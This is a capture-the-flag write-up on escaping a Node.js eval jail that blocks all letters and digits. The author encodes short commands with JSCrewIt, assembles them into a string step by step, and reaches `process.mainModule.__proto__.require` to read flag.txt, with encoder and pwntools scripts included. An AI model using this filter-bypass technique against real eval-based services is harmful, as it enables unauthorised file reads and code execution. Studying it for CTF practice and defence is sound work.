







Here's the challenge description

> A room, a terminal, a locked door asking for a secret code... and a broken keyboard whose letters and numbers no longer work. How hard can it be?

There is also a free hint on the challenge

> The require function is not part of the global context, it is a scoped variable which becomes undefined when called in different contexts. Try to find where is it always defined.

We are also provided and ip and port to connect to with netcat.

<!-- truncate -->

Upon connecting to the socket, we are prompted with this.

```javascript
async function challenge() {
  console.log(challenge.toString());
  try {
    const linereader = require("readline").createInterface({
      input: process.stdin,
    });

    process.stdout.write("> ");
    for await (const line of linereader) {
      if (/[0-9a-z]/i.test(line)) throw new Error("ILLEGAL INPUT DETECTED!");
      eval(line);
      process.stdout.write("> ");
    }
  } catch (err) {
    console.log(err.message);
  }
}
>
```

The objective is to inject javascript in the eval statement to print the `flag.txt` file, while evading constraints.

Immediately we see this line which is our constraint, we can't use numbers or letters (case insensitive).

```javascript
if (/[0-9a-z]/i.test(line)) throw new Error("ILLEGAL INPUT DETECTED!");
```

The first thing that came to mind was [JSFuck](https://jsfuck.com/), but after trying one command `console.log("Hello")`, i noticed that the length of my input was likely too long (~6k chars).



To figure out the maximum length I copied and modified the server's prompt code to print the length of the line that it read. Then tried the same input.





4095 chars is a very small space to write JSFuck that tends to be in the tens of thousands characters for simple code. The best that I could find to write the equivalent with the least amount of characters possible was [JSCrewIt](https://jscrew.it/), and still it would not be enough to write an entire command. I figured that if i could send commands of small size it would probably work.

Now here things get wierd, i'm not sure if this was the solution they were looking for with this challenge, but it worked.

Since the program runs in a loop inside a function, the `this` keyword can be used reliably to store variables. So you could use something like `this.a = ""` and add strings to it to build a command that would be input to `eval`.

So I tried a simple command in multiple parts using the [JSCrewIt](https://jscrew.it/) converter

```javascript
this.a=""
this.a+="console.log("
this.a+="'aaaa"
this.a+="')"
console.log(eval(this.a))
```

Each line was created on the [JSCrewIt](https://jscrew.it/) website so i could check how many characters were created to avoid going over 4065.



If i convert each line of the script to JSCrewit and feed it to the challenge, it works.



Using the [JScrewit npm package](https://www.npmjs.com/package/jscrewit) i created a simple script to output consecutive js commands as JScrewit to a file

```javascript
const JScrewIt = require('jscrewit')
const fs = require('fs')

const script = [
  `this.a=""`,
  `this.a+="console.log("`,
  `this.a+="'aaaa"`,
  `this.a+="')"`,
  `console.log(eval(this.a))`,
]

const options = {
  features: 'NODE_22',
}

let output = script.map((x) => JScrewIt.encode(x, options)).join('\n')

fs.writeFileSync("output.txt", output)
```

The output can then be sent to the server with a simple pwntools python script.

```python
from pwn import *
import time

context.log_level = 'DEBUG'
r = remote('<ip>', 1234)

file1 = open('output.txt', 'r')
Lines = file1.readlines()

for line in Lines:
    r.sendline(line)

r.interactive()
```



With this i could mess around and try to find where `required` is defined, following the hint the challenge provided. I sumbled on [this hackerone report](https://hackerone.com/reports/1877919) while searching. Meaning that `process.mainModule.__proto__.require()` could be the solution. I could then load `fs` and read the flag.

```javascript
const script = [
    'this.a=""',
    'this.a+="process"',
    'this.a+=".main"',
    'this.a+="Module."',
    'this.a+="_"',
    'this.a+="_"',
    'this.a+="proto"',
    'this.a+="_"',
    'this.a+="_"',
    'this.a+=".require"',
    `this.a+="('fs"`,
    `this.a+="')"`,
    `this.a+=".readFileSync"`,
    `this.a+="('"`,
    `this.a+="./flag.t"`,
    `this.a+="xt"`,
    `this.a+="')"`,
    'this.a+=".toString()"',
    `console.log(eval(this.a))`,
]
```

Generating this and running the equivalent JScrewit sequence using the python script gives the flag


